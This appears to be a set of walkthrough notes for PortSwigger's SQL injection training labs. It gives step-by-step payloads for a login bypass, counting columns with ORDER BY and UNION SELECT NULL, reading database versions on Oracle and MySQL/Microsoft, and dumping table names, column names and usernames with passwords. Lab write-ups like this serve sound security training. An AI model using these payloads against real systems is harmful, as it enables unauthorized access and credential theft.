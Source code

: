 ###### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
URL: https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

Endpoint: category

Steps:
```
1. Click on any filter item.
2. Insert the following payload in the url: category=' OR 1=1--
```


###### Lab: SQL injection vulnerability allowing login bypass
URL: https://portswigger.net/web-security/sql-injection/lab-login-bypass

Endpoint: username

Steps:
```
1. Go to login section.
2. Insert the following in the username section: administrator' OR 1=1--
```


###### Lab: SQL injection attack, querying the database type and version on Oracle
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal Server Error
4. Now we know that there are 2 items in the query.
5. Check the type of items in the query using:
5a. category=Gifts'+UNION+SELECT+1,1+FROM+dual--
	Response: error
5b. category=Gifts'+UNION+SELECT+'a',1+FROM+dual--
	Response: error
5c. category=Gifts'+UNION+SELECT+'a','a'+FROM+dual--
	Response: error
6.  category='+UNION+SELECT+banner,'b'+FROM+v$version--
	Response: Database version information
```

Note: We need to specify database name in case of oracle server thus we are using dual.
Ref: https://www.techonthenet.com/oracle/questions/version.php


###### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4. Now we know that there are 2 items in the query.
5. category=Gifts'+UNION+SELECT+@@VERSION,'a'--+
   Response: Database version information
```

Note: Database name is not necessary in when using UNION SELECT on non-oracle MYSQL.
Ref: https://www.sqlshack.com/how-to-find-sql-server-version/


###### Lab: SQL injection attack, listing the database contents on non-Oracle databases
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4. Now we know that there are 2 items in the query.
5. category='+UNION+SELECT+table_name,'a'+FROM+information_schema.tables--+
   Response: Databases names
6.
category=' UNION SELECT COLUMN_NAME,'a' FROM information_schema.columns WHERE table_name='users_uapnzk'--
Response: All Columns in the database users_eyeiho
7. category=' UNION+SELECT+username_rytsgw,password_ndebvk+FROM+users_uapnzk--
   Response: List of Usernames and passwords
```


Ref: https://dba.stackexchange.com/questions/93919/mysql-list-databases-with-tables
Ref: https://stackoverflow.com/questions/1580450/how-do-i-list-all-the-columns-in-a-table


###### Lab: SQL injection attack, listing the database contents on Oracle
URL: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Internal server error
4. Now we know that there are 2 items in the query.
5. category=Gifts'+UNION+SELECT+'a','a'+FROM+dual+--+
6. category='+UNION+SELECT+TABLE_NAME,'a'+FROM+ALL_TABLES--
   Response: All the Tables
7.
category='+UNION+SELECT+column_name,'a'+FROM+all_tab_columns+WHERE+table_name='USERS_GOQFTH'--+
Response: All the Columns in the table
8. category='+UNION+SELECT+USERNAME_AGRSKD,PASSWORD_RRZEUC+FROM+USERS_GOQFTH--+
   Response: All the data in the table
```

Ref: https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html#GUID-6823CD28-0681-468E-950B-966C6F71325D



###### Lab: SQL injection UNION attack, determining the number of columns returned by the query
URL: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns
Endpoint: category

Steps:
```
1. Click on any filter item.
2. Add ' to verify if sql injection exists.
3. Use the Order Clause to check the number of items that are being returned.
	3a. category=Gifts'+ORDER+BY+1--
	Response: Returns products
	3b. category=Gifts'+ORDER+BY+2--
	Response: Returns products
	3c. category=Gifts'+ORDER+BY+3--
	Response: Returns products
	3d. category=Gifts'+ORDER+BY+4--
	Response: Internal server error
Alternative:
4. 
	4a. category=Pets'+UNION+SELECT+NULL--+
		Response: Error
	4b. category=Pets'+UNION+SELECT+NULL,NULL--+
		Response: Error
	4c. category=Pets'+UNION+SELECT+NULL,NULL,NULL--+
		Response: Returns Products
```

